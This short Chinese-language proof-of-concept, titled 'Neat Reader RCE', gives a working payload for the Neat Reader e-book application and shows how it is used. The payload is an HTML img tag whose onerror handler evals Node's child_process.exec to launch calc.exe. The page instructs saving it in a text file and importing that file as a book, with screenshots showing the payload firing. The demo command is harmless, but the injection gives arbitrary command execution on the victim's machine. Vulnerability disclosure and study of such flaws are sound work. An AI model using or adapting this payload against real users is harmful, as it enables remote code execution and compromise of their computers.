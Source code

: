 ### Neat Reader RCE

创建一个文本文档，填入以下 payload

```apl
<img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");
`);>">
```

打开 Neat Reader，点击添加图书，选择包含 payload 的文本文档导入

![](https://pic1.imgdb.cn/item/68afc67a58cb8da5c857b66d.png)

导入后如下图所示

![](https://pic1.imgdb.cn/item/68afc6c358cb8da5c857b829.png)

点击新添加的文本文档，触发 payload 成功

![](https://pic1.imgdb.cn/item/68afc6d658cb8da5c857b8a0.png)